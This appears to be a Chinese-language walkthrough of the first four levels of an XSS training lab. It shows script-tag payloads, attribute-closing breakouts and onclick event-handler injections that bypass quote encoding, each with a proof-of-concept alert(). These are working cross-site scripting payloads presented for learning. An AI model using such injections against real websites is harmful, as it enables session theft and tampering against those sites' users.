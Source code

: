 ## https://xss.angelo.org.cn/level1.php?name=test

## level1

直接注入

直接添加payload

```html
name=<script>alert('xss')</script>
```

## level2

直接注入`name=<script>alert('xss')</script>`，发现不行

查看网页源代码：

```html
<input name="keyword" value="<script>alert('xss')</script>">
```

尝试闭合value

构造payload(引号也得加上，否则无法闭合)

```html
"><script>alert('xss')</script><"
```

## level3

尝试构造闭合`"><script>alert(1)</script><"`

网页源代码：

```html
<input name="keyword" value="&quot;><script>alert(1)</script><&quot;">
```

发现`"`被编码为了xml实体格式，如果将`"`换成`'`发现 `<` `>` 也被编码为了xml实体格式。。。难受

发现这题是用的`'`闭合

用`'`闭合value，然后创建一个点击，payload如下

```
' onclick='alert(1)
```

最后点击输入框

## level4

payload:(这个题是用的`"`闭合)

```
" onclick="alert(1)
```
